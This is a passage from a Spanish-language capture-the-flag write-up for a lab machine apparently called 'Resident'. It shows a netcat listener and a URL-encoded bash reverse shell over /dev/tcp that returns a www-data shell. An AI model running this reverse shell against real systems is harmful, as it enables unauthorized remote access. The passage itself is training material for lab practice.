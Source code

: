 <p align="center">
<img src="/assets/images/THL-writeup-resident/Captura18.png">
</p>

Ahí está, ya podemos ejecutar cualquier comando.

Mandémonos una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Usemos la siguiente **Reverse Shell**:
```bash
bash -c 'bash >& /dev/tcp/Tu_IP/443 0>&1'
```

**URL encodea** el comando y luego, manda la petición:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura19.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.110] 42458

whoami
www-data
```
